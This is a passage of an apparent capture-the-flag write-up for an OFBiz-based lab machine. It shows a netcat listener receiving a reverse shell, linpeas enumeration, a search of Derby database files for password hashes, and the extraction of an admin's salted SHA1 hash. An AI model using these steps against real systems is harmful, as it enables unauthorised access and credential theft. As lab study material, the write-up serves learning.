 ```shell
pl4int3xt@archlinux ~> nc -nlvp 9001
Connection from 10.10.11.252:43578
bash: cannot set terminal process group (719): Inappropriate ioctl for device
bash: no job control in this shell
ofbiz@bizness:/opt/ofbiz$
```

## Privilege escalation

After running linpeas we get some interesting derby database files 

```shell
╔══════════╣ Modified interesting files in the last 5mins (limit 100)
/var/log/auth.log
/var/log/journal/5e1bbbd9ec5d475ca2f8372a972bd975/user-1001.journal
/var/log/journal/5e1bbbd9ec5d475ca2f8372a972bd975/system.journal
/var/log/syslog
/var/log/daemon.log
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/c6850.dat
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/cde61.dat
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/c2e1.dat
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/c14ad1.dat
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/cde51.dat
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/cce71.dat
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/c6861.dat
/opt/ofbiz/runtime/data/derby/ofbiz/seg0/cce61.dat
/opt/ofbiz/runtime/data/derby/ofbiz/log/log32.dat
/opt/ofbiz/runtime/logs/error.log
/opt/ofbiz/runtime/logs/access_log..2024-01-12
/opt/ofbiz/runtime/logs/ofbiz.log
/tmp/hsperfdata_ofbiz/719
/tmp/hsperfdata_ofbiz/554
/tmp/hsperfdata_ofbiz/849
```

We search for all .dat files and compile them together

```shell
find / -name '*.dat' -type f 2>/dev/null > /tmp/datfiles
```

Searching for SHA strings in the compiled file we come across this

```shell
ofbiz@bizness:/tmp$ cat datfiles | xargs strings | grep SHA
cat datfiles | xargs strings | grep SHA
strings: /var/cache/debconf/passwords.dat: Permission denied
SHAREHOLDER
SHAREHOLDER
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
SHA-256
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
MARSHALL ISLANDS
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I!! 
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I!! 
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
SHA-256
SHA-256
```
We have a sha1 salted hash
